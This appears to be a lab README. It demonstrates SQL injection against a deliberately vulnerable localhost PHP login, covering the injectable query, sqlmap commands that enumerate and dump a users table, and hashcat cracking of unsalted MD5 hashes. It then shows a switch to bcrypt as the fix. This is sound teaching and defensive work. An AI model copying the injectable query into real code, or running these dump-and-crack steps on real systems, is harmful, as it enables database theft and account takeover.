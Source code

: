 # Password Extraction & MD5 Cracking Demo via SQL Injection and Hashcat

This project demonstrates how a vulnerable web application can be exploited using SQL injection to extract password hashes from a backend database, followed by cracking those hashes using Hashcat and a common wordlist (`rockyou.txt`).

---

## 1. Simulating the Vulnerable Environment

We created a PHP-based login form that is **intentionally insecure** by:

- Using unsalted MD5 for password hashing.
- Executing unparameterized SQL queries.

```php
$sql = "SELECT * FROM users WHERE username = '$username' AND password = '$hashedPassword'";
```

This was demonstrated using our vulnerable_login.php file.

## 2. SQL Injection

We used SQLmap to perform an automated SQL injection attack using the following steps:
- Prepared a test POST request
    ``` 
    sqlmap -u "http://localhost/vulnerable_login.php" --data="username=user1&password=123456" --batch --level=5 --risk=3
    ```
- Check for vulnerable databases
    ```
    sqlmap -u "http://localhost/vulnerable_login.php" --data="username=user1&password=123456" --batch --level=5 --risk=3 --dbs
    ```
- List tables in vulnerable database
    ```
    sqlmap -u "http://localhost/vulnerable_login.php" --data="username=user1&password=123456" --batch -D bankapp --tables
    ```
- Dump users table containing MD5 hashed passwords
    ```
    sqlmap -u "http://localhost/vulnerable_login.php" --data="username=user1&password=123456" --batch -D bankapp -T users --dump
    ```

## 3. Preparing and Cracking Hashed Passwords

We saved the hashedpasswords to our `md5hashes.txt` and used Hashcat and a bashscript `./crack_md5.sh` to automate the cracking process. The script used Hashcat and the `rockyou.txt` password list to crack the md5 hashes, rendering this output:

```
Cracked hashes:
482c811da5d5b4bc6d497ffa98491e38:password123
55122120498e3673fa6fcb8f7087a494:usr2123
3904117c6df2f91e8e92db1406bcb5ed:bob363
25ab1e918ecafc97687acffa220f692b:hardpass
9a7108cfaa7f51efb5fcda9e9d4b7a90:hello100
2bc35ad1dc45b4359d3c4acbe4fbdaf7:newpass8
cc9a250cde92dc08fa00a6c6d8944408:bread101
```

### Observations and Lessons

This helped us learn that we should always use parameterized queries to prevent SQL injection and easy access to our databases with secure information. We should also avoid storing unsalted passwords, especially with weak encryption such as MD5. We can also attempt to employ attempt limits and input validation to avoid brute force and injection attacks in the future.

# Using The More Secure Bcrypt
To improve or password security we switched from MD5 to Bcrypt. Bcrypt is a password hashing function that is based on the Blowfish cipher. This method includes a salt (a random value added prior to hashing) which makes using methods such as HashCat extremely slow or fruitless. 

Switching to Bcrypt was as easy, as it only involved the following change.

From this -
```
$hashedPassword = md5($password);
```
To this -
```
$hashedPassword = password_hash($password, PASSWORD_BCRYPT);
```

## End Results

The extraction of passwords used the same method as the one used to acquire our MD5 hashes. We used the same passwords as last time but this time hashed via Bcrypt. SQLmap was used for extraction and then a HashCat bash script was used to automate the process. However, this time around the script rendered no results. The estimated time to crack the hashes that was given by HashCat was **21 days, 11 hours**! regardless, there was no guarantee that any of the passwords would be cracked even in that time frame.

This result was a significant difference from our last attempt at cracking the MD5 hashes which rendered all 7 passwords correctly within seconds. This small change in hashing methods rendered a much more secure method of storing our passwords.






